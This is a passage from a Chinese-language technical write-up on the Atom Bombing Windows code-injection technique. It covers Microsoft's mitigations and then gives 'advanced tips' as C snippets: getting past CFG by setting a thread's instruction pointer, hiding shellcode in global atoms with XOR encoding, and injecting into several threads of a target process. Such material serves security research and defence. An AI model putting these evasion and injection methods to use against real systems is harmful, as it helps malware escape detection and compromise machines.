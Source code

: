 ## 历史漏洞与补丁

### CVE 信息

虽然 Atom Bombing 本身不是 CVE（因为它利用的是系统设计而非漏洞），但相关的防御措施已经被集成到 Windows 安全更新中：

- **Windows 10 RS2+**: 加强了 Atom 表访问控制
- **Windows 10 RS3+**: CFG 改进，更好地检测 ROP 链
- **Windows Defender ATP**: 专门的 Atom Bombing 检测规则

### Microsoft 响应

Microsoft 的官方立场是：
> "Atom tables are designed as a shared resource, and the behavior described is by design. We recommend using modern security features like CFG, CIG (Code Integrity Guard), and ACG (Arbitrary Code Guard) to mitigate such attacks."

## 进阶技巧

### 1. 绕过 CFG

```c
// 使用合法的函数指针
// CFG 只检查间接调用，不检查直接调用
ctx.Rip = NtAllocateVirtualMemory;  // 直接地址，CFG 不检查
```

### 2. 混淆 Atom 内容

```c
// XOR 编码 Atom 内容
WCHAR buffer[256];
for (int i = 0; i < size; i++) {
    buffer[i] = shellcode[i] ^ 0xAA;
}
ATOM atom = GlobalAddAtomW(buffer);

// 目标进程解码
// 需要先注入解码 stub
```

### 3. 多线程注入

```c
// 向多个线程注入相同的 shellcode
// 提高成功率
for each thread in target_process:
    AtomBombingInject(thread, shellcode)
```

## 参考资料
